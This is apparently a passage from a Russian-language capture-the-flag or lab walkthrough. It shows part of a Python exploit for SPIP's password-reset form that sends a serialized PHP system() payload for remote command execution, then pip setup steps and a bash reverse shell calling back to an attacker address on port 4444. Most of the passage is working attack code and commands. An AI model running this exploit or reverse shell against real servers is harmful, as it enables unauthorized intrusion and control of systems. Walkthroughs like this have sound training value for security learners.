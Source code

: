 ```commandline
    else:
        print("[-] Unable to find Anti-CSRF token")
        return -1

def send_payload(url, payload):
    data = {
        "page": "spip_pass",
        "formulaire_action": "oubli",
        "formulaire_action_args": csrf,
        "oubli": payload
    }
    r = requests.post('%s/spip.php?page=spip_pass' % url, data=data)
    if options.verbose:
        print("[+] Execute this payload : %s" % payload)
    return 0

if __name__ == '__main__':
    options = parseArgs()

    requests.packages.urllib3.disable_warnings()
    requests.packages.urllib3.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
    try:
        requests.packages.urllib3.contrib.pyopenssl.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
    except AttributeError:
        pass

    csrf = get_anticsrf(url=options.url)
    send_payload(url=options.url, payload="s:%s:\"<?php system('%s'); ?>\";" % (20 + len(options.command), options.command))
```

т.к. мы имеем дело с скриптовым языком python и конкретно в этом скрипте используются функции с внешних библиотек, 
то подгружаем эти библиотеки, для ускорения этого процесса создадим список необходимых библиотек командой:
```commandline
nano  requirements.txt
```
содержимое этого файла будет:
```commandline
argparse
bs4
requests
```
для автоматического запуска установки всех библиотек выполним команду
```commandline
pip install -r requirements.txt
```

### 3. на этом этапе мы попробуем скачать с нашей kali linux реверс-шел и в дальнейшем подключится через него.
--------------------------------------------------------------------
для этого создадим сам реверс шел, командой:
```commandline
nano reverse.sh
```
содержимое этого реверс шела:
```commandline
/bin/bash -i >& /dev/tcp/10.9.0.218/4444 0>&1
```
